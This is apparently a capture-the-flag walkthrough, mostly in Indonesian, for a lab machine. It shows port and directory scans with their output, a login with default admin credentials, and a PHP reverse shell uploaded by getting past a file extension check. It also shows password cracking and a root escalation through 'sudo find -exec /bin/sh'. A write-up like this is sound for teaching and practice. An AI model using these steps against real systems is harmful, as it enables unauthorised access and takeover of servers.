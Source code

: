 # Reconnaissance

### Port Enemuration
    nmap -sC -sV -oN doom.nmap -p- -T4 --min-rate=1000 10.1.2.152

```
# Nmap 7.94SVN scan initiated Sun Feb 18 20:55:08 2024 as: nmap -sC -sV -oN doom.nmap -p- -T4 --min-rate=1000 10.1.2.152
Warning: 10.1.2.152 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.1.2.152
Host is up (0.25s latency).
Not shown: 65523 closed tcp ports (conn-refused)
PORT      STATE    SERVICE    VERSION
80/tcp    open     http       Apache httpd 2.4.52 ((Ubuntu))
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: 403 Forbidden
1773/tcp  filtered kmscontrol
3403/tcp  filtered unknown
8354/tcp  filtered unknown
9764/tcp  filtered unknown
14356/tcp filtered unknown
20238/tcp filtered unknown
22408/tcp filtered unknown
33274/tcp filtered unknown
33588/tcp filtered unknown
38168/tcp filtered unknown
60673/tcp filtered unknown

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 18 20:56:45 2024 -- 1 IP address (1 host up) scanned in 97.44 seconds
```

### Directory Enemuration
    dirb http://10.1.2.152 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o doom.dirb

```
OUTPUT_FILE: doom.dirb
START_TIME: Sun Feb 18 21:04:21 2024
URL_BASE: http://10.1.2.152/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt
OPTION: Not Stopping on warning messages

-----------------

GENERATED WORDS: 4612

---- Scanning URL: http://10.1.2.152/ ----
+ http://10.1.2.152/.config (CODE:403|SIZE:1476)
+ http://10.1.2.152/_vti_bin/_vti_adm/admin.dll (CODE:403|SIZE:1476)
+ http://10.1.2.152/_vti_bin/_vti_aut/author.dll (CODE:403|SIZE:1476)
+ http://10.1.2.152/_vti_bin/shtml.dll (CODE:403|SIZE:1476)
+ http://10.1.2.152/akeeba.backend.log (CODE:403|SIZE:1476)
+ http://10.1.2.152/awstats.conf (CODE:403|SIZE:1476)
==> DIRECTORY: http://10.1.2.152/dev/
+ http://10.1.2.152/development.log (CODE:403|SIZE:1476)
+ http://10.1.2.152/global.asa (CODE:403|SIZE:1476)
+ http://10.1.2.152/global.asax (CODE:403|SIZE:1476)
+ http://10.1.2.152/index.php (CODE:200|SIZE:2186)
==> DIRECTORY: http://10.1.2.152/javascript/
+ http://10.1.2.152/main.mdb (CODE:403|SIZE:1476)
+ http://10.1.2.152/php.ini (CODE:403|SIZE:1476)
+ http://10.1.2.152/production.log (CODE:403|SIZE:1476)
+ http://10.1.2.152/server-status (CODE:403|SIZE:1476)
+ http://10.1.2.152/spamlog.log (CODE:403|SIZE:1476)

```



# Exploitation

### 1. Web Exploit

Terdapat 1 page valid dari hasil enumurasi directory `dev`
![Alt text](images/dev-page.png)


- Langkah selanjutnya dengan login menggunakan default credential dari online ID Generator System yaitu 
    ```
    username : admin
    password : admin123
    ```
    ![Alt text](images/admin-login.png)

- Setelah masuk lalu pindah ke menu settings dan lakukan serangan file upload dengan webshells
    ![Alt text](images/upload-revershell.png)
    ada sedikit keamanan yang memvalidasi extension file php untuk di tolak dan memberikan response 403, tetapi masih bisa di akali dengan menggunakan methode yang mengubah extension file menjadi png.
    ![Alt text](images/bypass-extension.png)

- inspect element pada image lalu copy path hasil upload tadi untuk di execute

- Execute webshell menggunakan url ini `http://10.1.2.152/?page=dev/uploads/1708266960_php-reverse-shell.png`
    ![Alt text](images/shell.png)


### Horizontal Privillage Escalation

- Melakukan pengecekan pada source code untuk melihat credential user
    cat /var/www/html/dev/initialize.php

    ![Alt text](images/pearce-password.png)

- Melakukan cracking password user dari pearce
    ![Alt text](images/crack-password.png)


- Login menggunakan credential yang d dapat dari hasil cracking pasword
    ![Alt text](images/pearce-login.png)

- Mencari command tertentu yang diizinkan untuk dieksekusi oleh pengguna dengan menggunakan `sudo -l`
    ![Alt text](images/sudo-l.png)

- Dapatkan hak akses user root dengan  `sudo find . -exec /bin/sh \; -quit` 

    ![Alt text](images/priv.png)




# Solved

![Alt text](images/solved.png)